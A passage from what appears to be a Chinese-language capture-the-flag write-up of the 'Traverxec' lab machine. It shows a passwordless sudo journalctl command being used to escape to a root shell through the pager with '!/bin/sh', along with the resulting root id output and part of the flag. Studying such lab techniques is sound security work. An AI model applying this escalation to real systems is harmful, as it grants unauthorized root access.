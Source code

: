 cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 

```

留意最后一行```/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat ```,这里用了一个sudo特权命令

我们尝试手动执行这一条命令,并没有要求我们输入登录密码
```
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
-- Logs begin at Tue 2021-12-28 07:49:41 EST, end at Tue 2021-12-28 08:22:51 EST. --
Dec 28 07:49:43 traverxec systemd[1]: Starting nostromo nhttpd server...
Dec 28 07:49:43 traverxec systemd[1]: nostromo.service: Can't open PID file /var/nostromo/logs/nhttpd.pid (yet?) after start: No such file or directory
Dec 28 07:49:43 traverxec nhttpd[419]: started
Dec 28 07:49:43 traverxec nhttpd[419]: max. file descriptors = 1040 (cur) / 1040 (max)
Dec 28 07:49:43 traverxec systemd[1]: Started nostromo nhttpd server.

```

也就是说这是一条用户```david```的特权命令，相当于```sudo -l```显示的内容

因此我们使用以下方法提权
先执行：
```
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```
再执行：
```
!/bin/sh
```

成功提权到root

```
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Tue 2021-12-28 07:49:41 EST, end at Tue 2021-12-28 08:19:44 EST. --
Dec 28 07:49:43 traverxec systemd[1]: Starting nostromo nhttpd server...
Dec 28 07:49:43 traverxec systemd[1]: nostromo.service: Can't open PID file /var/nostromo/logs/nhttpd.pid (yet?) after start:
Dec 28 07:49:43 traverxec nhttpd[419]: started
Dec 28 07:49:43 traverxec nhttpd[419]: max. file descriptors = 1040 (cur) / 1040 (max)
Dec 28 07:49:43 traverxec systemd[1]: Started nostromo nhttpd server.
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
9aa36a6d76....
# 
